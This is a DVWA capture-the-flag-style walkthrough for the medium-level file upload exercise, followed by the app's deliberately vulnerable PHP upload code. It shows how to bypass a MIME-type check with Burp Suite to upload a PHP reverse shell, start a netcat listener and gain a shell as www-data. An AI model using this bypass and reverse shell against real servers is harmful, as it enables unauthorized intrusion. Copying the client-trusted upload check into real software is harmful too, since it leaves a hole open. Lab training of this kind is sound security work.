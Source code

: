 # File Upload - Medium

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to medium 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to medium

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/medium`

#### Key Vulnerability Points:

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

	// Is it an image?
	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
		( $uploaded_size < 100000 ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

### Explanation
